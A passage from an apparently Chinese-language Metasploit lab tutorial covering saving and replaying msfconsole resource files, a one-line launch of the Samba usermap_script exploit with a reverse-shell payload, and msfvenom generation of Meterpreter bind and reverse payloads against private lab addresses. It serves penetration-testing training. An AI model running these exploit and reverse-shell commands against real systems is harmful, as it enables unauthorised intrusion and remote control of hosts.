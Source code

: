 ## 自动化
我们通过一系列的步骤在MSF操作后成功拿到了meterpreter会话权限，通过对help中提供的命令查询，发现了2个相关命令，有助于我们进行自动化的配置操作。

- makerc 保存记录到文件
- resource 执行记录文件

```bash
# 保存我们刚刚的操作记录
makerc vsftpd_234_shell.rc
# 去除其他无关的操作命令，保留核心命令
resource vsftpd_234_shell.rc

# 启动时直接执行rc记录文件
msfconsole -r version.rc

# 启动时执行命令
msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 192.168.115.130;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 192.168.115.129;\
run"
```

### msfvenom
有时漏洞利用后会从其他地方反弹一个脆弱的shell会话不方便操作，这时可以用msf模块进行一些payload生成来获取meterpreter会话。
```bash
# msfconsole中生成正向payload
use payload/linux/x86/meterpreter/bind_tcp
set rhost 192.168.115.130

# 反向payload
use payload/linux/x86/meterpreter/reverse_tcp
set lhost 192.168.115.129

# 生成
generate -f elf -o shell.elf
generate -f exe -o shell.exe

# msfvenom命令生成
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=192.168.115.130 -f elf -o shell.elf
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.115.129 -f elf -o shell.elf

# payload使用
use exploit/multi/handler
set payload linux/x86/meterpreter/bind_tcp
```

## 插件
### wmap
WMAP是一个功能丰富的 Web 应用程序漏洞扫描程序。
